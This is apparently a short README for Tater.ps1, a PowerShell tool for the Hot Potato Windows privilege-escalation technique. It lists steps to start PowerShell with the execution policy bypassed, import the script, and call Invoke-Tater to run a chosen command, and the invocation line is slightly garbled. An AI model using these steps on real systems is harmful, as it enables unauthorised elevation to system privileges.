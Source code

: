 # Hot Potato

## Example:

### 1: 

    powershell.exe -nop -ep bypass

### 2: 

    Import-Module C:\path\to\Tater.ps1

### 3: 

    Invoke-Tater -Trigger | -Command "COMMAND"

### 4: GG!
